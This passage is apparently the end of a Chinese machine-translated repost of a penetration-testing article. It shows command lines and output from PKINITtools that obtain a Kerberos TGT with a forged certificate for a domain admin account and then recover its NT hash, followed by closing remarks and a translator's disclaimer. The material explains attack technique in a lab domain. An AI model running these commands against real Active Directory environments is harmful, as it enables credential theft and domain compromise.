     
    # python3 gettgtpkinit.py -cert-pfx hax.pfx -pfx-pass dfeiecA9SZN75zJ7P5Zs n00py.local/esteban_da esteban_da.ccache  
    2022-02-21 16:29:58,106 minikerberos INFO     Loading certificate and key from file  
    2022-02-21 16:29:58,125 minikerberos INFO     Requesting TGT  
    2022-02-21 16:29:58,148 minikerberos INFO     AS-REP encryption key (you might need this later):  
    2022-02-21 16:29:58,148 minikerberos INFO     571d3d9f833365b54bd311a906a63d95da107a8e7457e8ef01b36810daadf243  
    2022-02-21 16:29:58,151 minikerberos INFO     Saved TGT to file  
       
    # python3 getnthash.py -key 571d3d9f833365b54bd311a906a63d95da107a8e7457e8ef01b36810daadf243 n00py.local/esteban_da  
    Impacket v0.9.25.dev1+20220217.14948.9fee58da - Copyright 2021 SecureAuth Corporation  
       
    [*] Using TGT from cache  
    [*] Requesting ticket to self with PAC  
    Recovered NT Hash  
    <NT HASH>  
    

 **使用 PKINITtools 获取 TGT 和 NT 哈希**

##  结束的想法

虽然其中一些主题之前已经介绍过，但拥有可用于实现相同目标的多种技术是很有价值的。每个环境都有其独特的限制，拥有更多可用选项会增加成功的可能性。

## 译文申明

  * 文章来源为`近期阅读文章`，质量尚可的，大部分较新，但也可能有老文章。
  * `开卷有益，不求甚解`，不需面面俱到，能学到一个小技巧就赚了。
  * `译文仅供参考`，具体内容表达以及含义,  _`以原文为准`_  (译文来自自动翻译)
  * 如英文不错的，`尽量阅读原文`。(点击原文跳转)
  * `每日早读`基本自动化发布(不定期删除)，这是`一项测试`

> > > ### `最新动态: Follow Me`
>>>

>>> 微信/微博： **`red4blue`**

>>>

>>> 公众号/知乎： **`blueteams`**

>>>

>>> ![](https://gitee.com/fuli009/images/raw/master/public/20220310170418.png)  
>

![](https://gitee.com/fuli009/images/raw/master/public/20220310170419.png)

  

![]()
